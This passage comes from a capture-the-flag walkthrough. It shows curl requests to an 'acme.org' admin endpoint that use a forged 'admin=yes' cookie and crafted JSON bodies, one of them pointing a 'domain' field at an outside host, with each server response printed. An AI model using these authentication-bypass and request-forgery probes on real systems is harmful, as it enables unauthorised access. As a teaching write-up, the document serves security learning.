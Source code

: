 Given that API-based authentication often leverages JSON payloads, I constructed a POST request to `/index.php` with the administrator cookie, an `iso-8859-1` character set, and the `application/json` MIME type:

```
$ curl -i -s -k -X "POST" -H$'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -b $'admin=yes' 'http://admin.acme.org/index.php'
```

This time, the response was humorously intriguing:

```
HTTP/1.1 418 I'm a teapot
Date: Tue, 14 Nov 2017 16:52:28 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 37
Content-Type: application/json

{"error":{"body":"unable to decode"}}
```

HTTP status code `418` is sourced from a Request for Comments [memo](https://tools.ietf.org/html/rfc2324) issued by the [IETF](https://www.ietf.org) on April Fools' Day of 1998, for the "Hyper Text Coffee Pot Control Protocol."

### Diving into the JSON

The challenge was afoot. Thinking to improvise, I constructed an authentication-style JSON payload and POSTed it to the Acme server:

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"username\":\"admin\",\"password\":\"admin\"}' 'http://admin.acme.org/index.php'
```

```
HTTP/1.1 418 I'm a teapot
Date: Tue, 14 Nov 2017 16:57:51 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 31
Content-Type: application/json

{"error":{"domain":"required"}}
```
  
Using that newfound information, I swapped the `username` and `password` key-value pairs in favour of a `domain` pair, within which I specified `www.google.com` as the value:

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"domain\":\"www.google.com\"}' 'http://admin.acme.org/index.php'
```
